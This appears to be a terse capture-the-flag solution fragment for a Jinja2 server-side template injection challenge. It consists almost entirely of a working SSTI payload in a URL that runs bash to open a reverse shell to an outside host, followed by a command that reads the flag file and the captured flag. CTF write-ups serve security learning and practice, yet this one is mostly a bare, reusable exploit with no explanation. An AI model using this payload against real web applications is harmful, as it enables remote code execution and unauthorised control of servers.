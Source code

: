 Jinja2 SSTI

reverse shell:

`http://185.168.131.123/{{url_for.__globals__.__getitem__('os').system("bash -c 'bash -i >& /dev/tcp/kaibro.tw/5566 0>&1'")}}`

`cat flag_secret_file_910230912900891283`

`flag{blacklists_are_insecure_even_if_you_do_not_know_the_bypass_friend_1023092813}`
